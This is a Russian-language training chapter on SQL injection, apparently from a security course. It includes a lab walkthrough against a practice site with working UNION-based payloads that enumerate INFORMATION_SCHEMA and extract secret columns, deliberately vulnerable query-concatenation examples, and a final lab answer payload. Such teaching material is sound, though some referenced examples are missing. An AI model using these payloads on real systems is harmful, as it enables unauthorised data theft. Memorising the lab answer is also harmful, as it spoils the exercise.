

### 5.6 Уязвимости SQL-инъекции

Что такое SQL?

Язык структурированных запросов (SQL) – это язык программирования для хранения и обработки информации в реляционной базе
данных. Реляционная база данных хранит информацию в табличной форме со строками и столбцами, представляющими различные
атрибуты данных и различные связи между значениями данных. Инструкции SQL можно использовать для хранения, обновления,
удаления, поиска и извлечения информации из базы данных. Можно также использовать SQL для поддержания и оптимизации
производительности базы данных.

#### Что такое SQL инъекция?

SQL-инъекция – это уязвимость веб-приложений, позволяющая злоумышленнику вмешиваться в запросы, которые приложение
делает к своей базе данных. Она позволяет злоумышленнику просматривать данные, которые он, как правило, не может
получить. Сюда могут входить данные, принадлежащие другим пользователям, или любые другие данные, к которым само
приложение может получить доступ. Во многих случаях злоумышленник может изменять или удалять эти данные, вызывая
постоянные изменения содержимого или поведения приложения.

В некоторых ситуациях злоумышленник может эскалировать атаку SQL-инъекции, чтобы скомпрометировать сервер или другую
внутреннюю инфраструктуру, или выполнить атаку типа "отказа в обслуживании".

#### Какой ущерб несут уязвимости к инъекции SQL?

Успешная атака SQL-инъекции может привести к несанкционированному доступу к конфиденциальным данным, таким, как пароли,
данные кредитной карты или личная информация пользователя. Многие громкие утечки данных в последние годы стали
результатом атак SQL-инъекции, что привело к репутационному ущербу и штрафам со стороны регулирующих органов. В
некоторых случаях злоумышленник может получить постоянный «черный ход» в системы организации, что приводит к
долгосрочному закреплению злоумышленника в инфраструктуре, которое может оставаться незамеченным длительный
период времени.

В частности, уязвимости SQL-инъекций могут приводить к:

- Извлечению данных и возможности исследования базы данных
- Модификации информации в базе данных (удалению, добавлению, изменению)
- Обходу логики
- Обходу механизмов авторизации и аутентификации
- Чтению файлов ОС
- Выполнению команд ОС
- Отказу в обслуживании

#### Разбор техники

Ход действий

1. Заполним форму на портале http://evil.corp:1337/ и проанализируем ответ в BurpSuite:

2. Отметим, что данные сохранились на сайте, причем они доступны по прямой
   ссылке: http://evil.corp:1337/receipt.php?orderID=2

3. Попробуем провести фаззинг параметра orderID, используя знак одинарной кавычки:

Появившееся сообщение об ошибке говорит о том, что пользовательский ввод попал в текст SQL-запроса к базе данных MySQL.
Из этого можно заключить, что данный параметр может быть подвержен SQL-инъекции – уязвимости, позволяющей атакующим
манипулировать базой данных и получать доступ к её содержимому.

4. Попробуем вставить в запрос модификаторы, позволяющие получить из базы интересующую нас информацию. Для начала
   определим количество колонок в запросе с помощью конструкции “2 order by N”, где мы будем подставлять вместо N
   значения от 1 до 100, чтобы определить количество колонок в выдаче запроса. Сообщение об ошибке будет значить что
   такой колонки не существует. С помощью такого перебора придем к значению 8 – правильному количеству колонок в
   результате запроса.

5. Теперь мы можем вытащить из базы данных полезную информацию, объединив оригинальный запрос с нашим с помощью UNION
   SELECT с тестовыми значениями для всех колонок и комментарием в конце для отсечения ненужных модификаторов запроса:

-1 UNION SELECT 1,2,3,4,5,6,7,8 -- -

Так мы подменили реальный результат запроса на поданные нами значения и убедились, что уязвимость действительно
присутствует.

6. Теперь мы можем попробовать получить метаданные из специфичной для MySQL таблицы INFORMATION_SCHEMA, где хранится
   информация о присутствующих в базе таблицах и колонках:

-1 UNION SELECT 1,2,3,4,TABLE_NAME,6,7,8 FROM INFORMATION_SCHEMA.tables -- -

Теперь в поле comments попало название таблицы.

7. Для выдачи всех таблицы мы можем использовать функцию GROUP_CONCAT, объединяющую строки из результата запроса в одну
   с использованием указанного разделителя:

-1 UNION SELECT 1,2,3,4,GROUP_CONCAT(TABLE_NAME, '-'),6,7,8 FROM INFORMATION_SCHEMA.tables -- -

8. Попробуем определить содержимое secret_table:

-1 UNION SELECT 1,2,3,4,GROUP_CONCAT(COLUMN_NAME, '-'),6,7,8 FROM INFORMATION_SCHEMA.columns WHERE
table_name='secret_table' -- -

9. Получим значение secret_column, используя аналогичную технику:

-1 UNION SELECT 1,2,3,4,secret_column,6,7,8 FROM secret_table -- -

#### Примеры SQL инъекций

Сценарий №1

Приложение использует недоверенные данные при создании следующего уязвимого SQL-вызова:
String query = "SELECT * FROM accounts WHERE custID=""+request.getParameter("id") +"";

Сценарий №2

Безоговорочное доверие приложений к фреймворкам может привести к появлению уязвимых запросов (например, в языке запросов
HQL):
Query HQLQuery = session.createQuery("FROM accounts WHERE custID="" +request.getParameter("id") + "");

В обоих случаях злоумышленник изменяет в своем браузере значение параметра "id" для отправки  ' or '1'='1.

Например: http://example.com/app/accountView?id='+or+'1'='1

Изменение обоих запросов позволяет получить все записи из таблицы учетных данных. Более
серьезные атаки позволяют их изменить или удалить.

Сценарий №3

Использование фреймворков, кажущееся безопасным, может быть обманчивым.

Пример использования фреймворка Ruby On Rails и Active Records:

Кажущийся безопасным вызов .order() на самом деле не экранирует управляющих конструкций, получаемых от приложения, что
приводит к возможности проведения атак на базу данных, через такой вектор как:

Попрактиковаться в написании SQL-запросов можно в онлайн сервисах, например https://www.mycompiler.io/new/mysql
или https://onecompiler.com/postgresql.

#### О техниках атак

Существует широкий спектр уязвимостей, атак и методов SQL инъекции, которые возникают в различных ситуациях. К числу
наиболее распространенных примеров SQL-инъекций относятся:

Stacked queries — инъекция SQL-запросов, позволяющая злоумышленнику выполнить несколько запросов за один раз.

Union-based — инъекция, использующая оператор UNION для объединения результатов двух запросов, что позволяет
злоумышленнику извлекать данные из других таблиц.

Error-based — инъекция, основанная на ошибке, которая может возникнуть при выполнении запроса, что позволяет
злоумышленнику получать информацию об уязвимости.

Boolean blind — инъекция, при которой злоумышленник использует булевы выражения для проверки наличия или отсутствия
определенных данных в базе данных.

Time-based — инъекция, которая использует задержку выполнения запроса для получения информации о базе данных.

Out of band — инъекция, которая не взаимодействует с сайтом напрямую, а использует другой канал для передачи данных,
например, отправку электронной почты или HTTP-запросов.

Итоговый запрос который нужно подставить вместо вашего id:
-1 UNION SELECT 1,2,3,4,super_secret_column,6,7,8 FROM super_secret_table -- -

т.о. полная строка в браузере будет иметь вид:
localhost:1337/receipt.php?orderID=-1 UNION SELECT 1,2,3,4,super_secret_column,6,7,8 FROM super_secret_table -- -

